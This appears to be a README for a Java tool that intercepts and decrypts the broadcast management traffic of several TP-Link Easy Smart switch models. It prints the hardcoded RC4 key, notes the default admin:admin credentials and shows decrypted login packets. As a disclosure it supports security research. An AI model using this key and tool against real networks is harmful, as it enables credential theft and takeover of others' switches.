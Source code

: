 ## Running the tool
Compile: 

	cd src
	javac Intercept.java

Run (for example): 

	cd src
	java Intercept

## Why is it possible to intercept the management traffic?
- The traffic goes over broadcast.
- The traffic is encrypted using RC4 with a fixed key located *hardcoded* in the "Easy Smart Configuration Utility"

## Is it possible to configure foreign devices?
Yes, after intercepting or bruteforcing the password (default is admin:admin on all devices, the maximum password length is 16) without any restrictions.

## What's the RC4 Key?
	Ei2HNryt8ysSdRRI54XNQHBEbOIRqNjQgYxsTmuW3srSVRVFyLh8mwvhBLPFQph3ecDMLnDtjDUdrUwt7oTsJuYl72hXESNiD6jFIQCtQN1unsmn3JXjeYwGJ55pqTkVyN2OOm3vekF6G1LM4t3kiiG4lGwbxG4CG1s5Sli7gcINFBOLXQnPpsQNWDmPbOm74mE7eyR3L7tk8tUhI17FLKm11hrrd1ck74bMw3VYSK3X5RrDgXelewMU6o1tJ3iX

## Package
`<header>[<type><length><value>]`  
The body may contain more than one data block called "TLV".

## General communications
The password is transmitted on each configuration change request.

## List of possibly affected devices
- TL-SG1024DE 1.0
- TL-SG1024DE 2.0
- TL-SG1016DE 1.0
- TL-SG1016DE 2.0
- TL-SG108E 1.0
- TL-SG108E 2.0
- TL-SG105E 1.0
- TL-SG105E 2.0
- TL-SG108PE 1.0

## Sample output for a login

	===NEW PACKET ON PORT 29809 FROM /172.19.79.55
	Decrypted data:
	 Version:1
	 OPCODE:3
	 MAC:F4F26DD27F12
	 HOST MAC:080027D3524B
	 SEQUENCE NUMBER:618
	 ERROR CODE (7 or 8 are somehow bad):0
	 LENGTH:56
	 FRAGMENT OFFSET:0
	 TOKEN ID:27750
	 CHECKSUM (apparently not implemented):0
	  BODY:
	 -START TLV-
	  TYPE:512 (Username)
	  LENGTH:6
	  BODY:61646D696E00 (admin::StringType)
	 -START TLV-
	  TYPE:514 (Password)
	  LENGTH:6
	  BODY:61646D696E00 (admin::StringType)
	 -START TLV-
	  TYPE:-1 (Unknown)
	  LENGTH:0
	  BODY: (::unknown)
	  RAW: 0103F4F26DD27F12080027D3524B026A000000000038000000006C66000000000200000661646D696E000202000661646D696E00FFFF0000
